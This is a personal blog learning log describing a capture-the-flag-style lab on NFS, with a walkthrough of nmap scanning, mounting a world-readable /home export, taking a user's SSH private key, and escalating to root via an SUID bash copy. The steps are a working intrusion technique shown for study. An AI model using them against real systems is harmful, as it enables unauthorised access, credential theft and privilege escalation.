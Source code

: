 ```yaml
---
title: Day 15
date: 2022-04-28
layout: post.njk
tags: daily
---
```


{{ page.date.toDateString }}

I wanted to knock out a module this morning, but I was busy with work again so I'm not getting to this until later.

The frist section is about NFS or [Network File System](https://en.wikipedia.org/wiki/Network_File_System). It just goes over the protocol at a high level but there are more details [here](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html).

I thought this was an interesting section in the reading:
> If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:
> - The file handle
> - The name of the file to be accessed
> - The user's, user ID
> - The user's group ID
> These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.

How do you pass the paramters into the call? Can it be faked? How does the authentication work? I'm guessing most of the exploitations will center around misconfigurations, but I'm curious how it works at a low level.

Here are some more usefule links:

- [datto](https://www.datto.com/blog/what-is-nfs-file-share)
- [sourceforge](http://nfs.sourceforge.net/)
- [arch linux](https://wiki.archlinux.org/title/NFS)

All the questions were easy and in the reading except for the question: what was the most recent version of NFS which I googled and got the answer on wikipedia.


In the enumeration phase of NFS I first learned about [nfs-common](https://packages.ubuntu.com/bionic/nfs-common).

So I first ran a port scan to see what ports are open I ran `nmap -sS <ip> -p-` I ran `-sS` to get information about the services running on the open ports.
I'm not sure if its the box but anytime I run a scan with -p- it's crazy slow.

Ok so that scan was going crazy slow it I changed it to:
> `nmap -sT <ip> -p 1-10000`

and I did it in chunks of 10000 and the results came back almost instantly. I did this up to 65535 and I figured out that there were 7 open ports and the NFS service was running on 2049.

I ran:
> `nmap -sS 10.10.86.162 -p 2049`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-29 03:04 BST`

>`Nmap scan report for ip-10-10-86-162.eu-west-1.compute.internal (10.10.86.162)`

>`Host is up (0.00022s latency).`
>
>`PORT     STATE SERVICE`

>`2049/tcp open  nfs`

>`MAC Address: 02:67:85:2B:62:2F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds`

Not a ton of info there.

I ran:
>`$ /usr/sbin/showmount -e 10.10.86.162`
>
>`Export list for 10.10.86.162:`
>
>`/home *`

I ran:

>`$ sudo mount -t nfs 10.10.86.162:/home /tmp/mount -nolock`
> 
>`$ cd /tmp/mount`
>
>`$ ls`
>
>`cappucino`

That directory appeared to be a home directory for a user. It contained a .ssh file with an id_rsa. I copied that file out, changed the permissions to `600` and logged in via ssh using

>`ssh -i id_rsa cappucino@<ip>`.

Last part is exploiting NFS!

The reading talks about Root Squashing and the creation of SUID bit files.

So I downloaded the correspoding bash shell from this [github](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). I copied it into the mounted directory. I changed the owner to root via:

>`$ chown root bash`

I added the SUID permission via:
>`$ chmod +sx bash`

>`# ls -l bash`
>
>`-rwsr-sr-x 1 root root 1113504 Apr 29 03:25 bash`

Finally in the ssh session I ran:

> `./bash -p`

the -p flag maintains the permissions of the file.

I then got root and got the flag in the root directory!

This was a great section of the module. I definitely picked up a ton here, and I'm looking forward to the next two sections of this module.